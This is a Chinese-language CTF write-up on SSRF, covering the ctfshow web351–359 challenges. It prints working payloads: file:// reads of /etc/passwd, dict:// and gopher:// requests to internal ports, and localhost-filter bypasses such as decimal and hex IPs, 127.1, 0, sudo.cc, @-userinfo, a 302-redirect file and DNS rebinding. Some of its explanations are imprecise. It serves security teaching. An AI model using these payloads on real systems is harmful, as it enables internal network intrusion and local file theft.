





## 4.危害

1.  对外网、服务器所在内网、本地进行端口扫描 
2.  向内部任意主机的任意端口发送payload来攻击内网服务 
3.  DOS攻击（请求大文件，始终保持连接Keep-Alive Always） 
4.  攻击内网的web应用，如直接SQL注入、XSS攻击等 
5.  利用file、gopher、dict协议读取本地文件、执行命令等 
6.  可以无视网站CDN

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了方便运维并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

## 5.检测漏洞

1.因为SSRF是构造服务器发送请求的漏洞，所以我们可以通过抓包分析发送的请求是否是服务器端发来的请求来判断是否存在SSRF漏洞

2.也可以在页面源码中查找是否存在可以访问的资源地址，如果有一个资源地址的类型为[http://www.xxx.com/a.php?image=](http://www.xxx.com/a.php?image=)地址，就可能存在SSRF漏洞

## 6.示例

假如我们有一个网站可以加载远程地址的内容到本地，并且系统没有对我们传入的url参数进行任何的检查，我们就可以构造其他的请求，例如：

```
http://www.xxx.com/article.php?url=http://127.0.0.1:22
http://www.xxx.com/article.php?url=file:///etc/passwd#访问本地系统中的/etc/passwd文件
http://www.xxx.com/article.php?url=dict://127.0.0.1:22/data:data2 (dict可以向服务端口请求data data2)
http://www.xxx.com/article.php?url=gopher://127.0.0.1:2233/_test (向2233端口发送数据test,同样可以发送POST请求)
..
```

`file://`协议用于访问本地文件系统，而`/etc/passwd`文件通常存储着系统用户的信息

## 7.相关的函数和类



## 8.相关的伪协议

- file 协议结合目录遍历读取文件。
- gopher 协议打开端口。
- dict 协议主要用于结合 curl 攻击。
- http 协议进行内网探测。

# 0x02刷题

## web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

因为是新的章节，所以我们先来分析一下这段代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);#这行代码初始化了一个cURL会话，并将要访问的URL传递给它。
curl_setopt($ch, CURLOPT_HEADER, 0);#设置了cURL选项，告诉cURL不要包含响应头部信息。
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);#设置了cURL选项，告诉cURL将响应内容以字符串形式返回，而不是直接输出到浏览器，参数为1表示$result,为0表示echo $result
$result=curl_exec($ch);#执行cURL会话，发送请求并获取响应内容，将其存储在$result变量中。
curl_close($ch);#关闭cURL会话，释放资源。
echo ($result);
?>
```

总的来说，这段代码的功能是接收一个远程URL，使用cURL库访问该URL，并将获取到的内容直接输出到浏览器

，结合我们上面说的知识点，这里的话可能就会存在ssrf漏洞，为什么呢?因为他可以向别的地址发起访问申请，我们可以抓包分析一下



我们分析一下这个请求包的内容

```php
Sec-Fetch-Site: same-origin#用于指示请求的来源，此处的 same-origin 表示请求来自于同源页面
Sec-Fetch-Mode: navigate#指示了请求的模式。navigate 表示这是一个导航请求，即用户在浏览器中输入URL或点击链接导致的请求。
Sec-Fetch-User: ?1#表示用户是如何触发此请求的
Sec-Fetch-Dest: document#指示了请求的目标资源类型
```

那这道题该怎么去做呢?

首先我们是可以知道这里是有一个flag.php的，我们先访问看看



发现这里是非本地用户无法访问的，所以我们就可以发现这个flag.php的话可能是存在本地也就是我们访问不到的，那我们得通过这个当前的服务器去访问我们的本地服务器，就可以拿到flag了



这里的话就通过这个ssrf去构造服务器请求，去带出我们本地服务器中的flag.php文件

当然我们也可以用file协议去读取我们本地的文件

file:///etc/passwd 有返回值,猜测flag在当前目录，而当前目录一般都是/var/www/html 故传入file:///var/www/html/flag.php

## web352

### #过滤本地地址

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){#检查URL的协议是否是HTTP或HTTPS。
if(!preg_match('/localhost|127.0.0/')){#检查URL是否不包含'localhost'或'127.0.0'
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

### $x=parse_url($url);

在PHP中，`parse_url()`函数用于解析 URL，并返回一个关联数组，其中包含 URL 的各个部分，如 scheme（协议）、host（主机）、path（路径）、query（查询参数）等。当你调用`parse_url($url)`时，它会将提供的 URL 字符串 `$url` 进行解析，并返回一个包含解析后各部分信息的数组 `$x`。

例如，如果 `$url` 是 `http://www.example.com/test.php?q=123`，那么 `$x` 数组可能如下所示：

```
Array (
    [scheme] => http
    [host] => www.example.com
    [path] => /test.php
    [query] => q=123
)
```

这里的话就是对参数禁止了本地访问，但是又需要我们去传入协议为http或者https

### 进制绕过

这里我们用127.0.0.1的十进制2130706433

```
url=http://2130706433/flag.php
```

当然也可以用十六进制去绕过哈

```
url=http://0x7F000001/flag.php
```

但是后来我发现这里有过滤但是好像没什么用，所以web351的本地访问的做法还是可以正常做的

## web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

和上题一样用进制可以打的通

### 关于环回地址

但是127.0.0.1 ~ 127.255.255.254 都表示 localhost，在IPv4地址空间中，127.0.0.1到127.255.255.254是保留的地址范围，用于表示本地主机（localhost），也称为环回地址。

所以我们的payload也可以是

```php
url=http://127.233.233.233/flag.php
```

### sudo.cc代替本地地址

当你在浏览器中输入`sudo.cc`时，操作系统会将这个域名解析为`127.0.0.1`，从而把请求发送到本地主机。

payload

```
url=http://sudo.cc/flag.php
```

## web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

这次的话把1和0过滤了，能用的方法就是sudo.cc，但是我学了一种方法就是302跳转

### 302跳转

在自己的网站页面添加php文件进行302跳转

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

这串代码会将浏览器重定向到本地主机（localhost）上的`flag.php`页面，当浏览器收到这个响应头后，它会自动跳转到指定的URL地址。

然后我们的payload:

```
url=http://自己的网页地址/php文件名
```

## web355

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

这里对host的长度进行了限制，也就是我们不能用127.0.0.1这种地址去解题了，但是我们可以想到

### 关于0的解析

0在 linux 系统中会解析成127.0.0.1在windows中解析成0.0.0.0

所以我们设置payload

```
[POST]payload：url=http://0/flag.php
```

### 关于无效地址解析

在 URL 中，当域名或主机名中使用了一个无效的 IP 地址时，浏览器通常会将其解析为本地地址 127.0.0.1，即回送地址。

所以我们的payload

```
[POST]payload：url=http://127.1/flag.php
```

## web356

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

只能有3个字符了，那就直接0或者0.0都行

## web357

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


echo file_get_contents($_POST['url']);
}
else{
    die('scheme');
}
?> scheme
```

### gethostbyname()函数

`gethostbyname()` 函数是PHP中用于获取主机名对应的IP地址的函数。它接受一个主机名作为参数，并返回该主机名对应的IP地址。

基础语法

```php
string gethostbyname ( string $hostname )
```

- `$hostname`：要获取IP地址的主机名。

### filter_var()函数

`filter_var()` 函数是 PHP 中用于过滤和验证数据的函数之一。它可以根据指定的过滤器对数据进行过滤和验证，确保数据符合特定的格式、类型或规则。

基础语法

```php
mixed filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] )
```

- `$variable`：要过滤或验证的变量。
- `$filter`：可选参数，指定要应用的过滤器。默认是 `FILTER_DEFAULT`，表示使用默认过滤器。
- `$options`：可选参数，用于设置过滤器选项。

### FILTER_VALIDATE_IP过滤器

`FILTER_VALIDATE_IP` 是 PHP 中的一个常用过滤器，用于验证一个字符串是否为有效的 IP 地址。当使用 `FILTER_VALIDATE_IP` 过滤器时，`filter_var()` 函数将检查字符串是否为有效的 IPv4 或 IPv6 地址。

### `FILTER_FLAG_NO_PRIV_RANGE` 

`FILTER_FLAG_NO_PRIV_RANGE` 是过滤器标志，用于排除私有地址。私有地址是指保留用于内部网络的地址

### FILTER_FLAG_NO_RES_RANGE

FILTER_FLAG_NO_RES_RANGE 是过滤器标志，用于排除保留地址。保留地址是指在公共网络中不可路由的地址。

这里的话会验证我们传入的地址是否是有效的ip地址，并且会排除我们的私有地址和保留地址

那我们的做法就是用302跳转去做

payload：

```
url=http://服务器的web页面地址/php文件名
```

或者也可以dns rebinding攻击

DNS rebinding 攻击是一种利用 DNS 协议的漏洞来攻击网络应用程序的方法。在 DNS rebinding 攻击中，攻击者通过将恶意站点绑定到一个 IP 地址，然后将此 IP 地址映射到一个不同的 IP 地址，来欺骗目标浏览器执行恶意代码。

1·修改自己域名的a记录，改成127.0.0.1

2·这个网站a记录指向127.0.0.1 可以直接利用

这个方法没试过，可以试一下

## web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

先讲payload

```php
url=http://ctf.@127.0.0.1/flag.php#show
url=http://ctf.@127.0.0.1/flag.php?show
```

为什么呢？

- 当`parse_url()`解析到邮箱时：@前面是user，后面是password。因为在基于 HTTP 和 HTTPS 协议的 URL 中，`@` 符号通常用于指定用户名和密码，而不是作为域名的一部分。

## web359

打无密码的mysql


